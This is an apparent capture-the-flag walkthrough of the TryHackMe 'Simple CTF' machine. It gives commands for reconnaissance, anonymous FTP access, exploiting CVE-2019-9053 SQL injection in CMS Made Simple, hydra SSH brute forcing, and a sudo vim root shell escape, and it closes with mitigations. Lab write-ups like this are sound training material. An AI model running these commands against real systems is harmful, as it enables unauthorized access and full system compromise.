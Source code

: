 
# Simple CTF Walkthrough

## Overview
This walkthrough documents the exploitation of the **Simple CTF** machine on TryHackMe.  
The machine highlights multiple attack vectors:
- FTP misconfiguration
- Vulnerable CMS (CMS Made Simple)
- Weak/reused credentials
- Privilege escalation via sudo misconfiguration

---

## Reconnaissance
### Network Discovery
```bash
nmap -sV -p- <IP_ADDRESS>
```


**Results:**

* `21/tcp` → FTP (vsftpd)
* `80/tcp` → HTTP (Apache httpd, CMS Made Simple)
* `2222/tcp` → SSH (OpenSSH)

⚠️ SSH running on a non-standard port (`2222`) suggests "security through obscurity" and potential misconfigurations.

---

## Initial Access

### Path A: FTP Anonymous Login

```bash
ftp <IP_ADDRESS>
Username: anonymous
Password: (blank)
```

✅ **Login successful**

Discovered file:

```bash
cd pub
get ForMitch.txt
cat ForMitch.txt
```

📄 Revealed **user `mitch`** with a weak, reused password.

---

### Path B: Web Vulnerability (CMS)

Directory enumeration:

```bash
dirbuster -u http://<IP_ADDRESS> -w /usr/share/wordlists/dirb/common.txt
```

Found `/simple` → **CMS Made Simple**

Exploit search:

```bash
searchsploit cms made simple
```

Identified vulnerability **CVE-2019-9053 (SQL Injection)**

Exploitation:

```bash
python 46635.py -u http://<IP_ADDRESS>/simple --crack -w /usr/share/wordlists/rockyou.txt
```

✅ **Credentials Recovered:**

| Username | Password |
| -------- | -------- |
| mitch    | secret   |

---

## Gaining Shell Access

SSH brute-force (optional, confirmed password):

```bash
hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://<IP_ADDRESS>:2222
```

Direct SSH login:

```bash
ssh mitch@<IP_ADDRESS> -p 2222
Password: secret
```

✅ **User Flag**

```bash
cat user.txt
```

---

## Privilege Escalation

Check sudo permissions:

```bash
sudo -l
```

Allowed to run `/usr/bin/vim` as root.

Exploit Vim shell escape:

```bash
sudo vim -c ':!/bin/sh'
```

✅ **Root shell obtained**

Root Flag:

```bash
cd /root
cat root.txt
```

---

## Key Findings

* Insecure FTP service (Anonymous login enabled, CVE-1999-0497)
* Outdated CMS vulnerable to SQL Injection (CVE-2019-9053)
* Weak/reused credentials
* Sudo misconfiguration (allowed execution of Vim as root)

---

## Mitigations

* ❌ Disable anonymous FTP access
* 🔑 Enforce strong password policies + MFA
* 🔄 Apply timely CMS updates
* 🔒 Restrict sudo privileges (principle of least privilege)

---

## Conclusion

This machine demonstrated how **stacked misconfigurations** (weak passwords + outdated software + insecure sudo rules) can lead to a **full system compromise**.
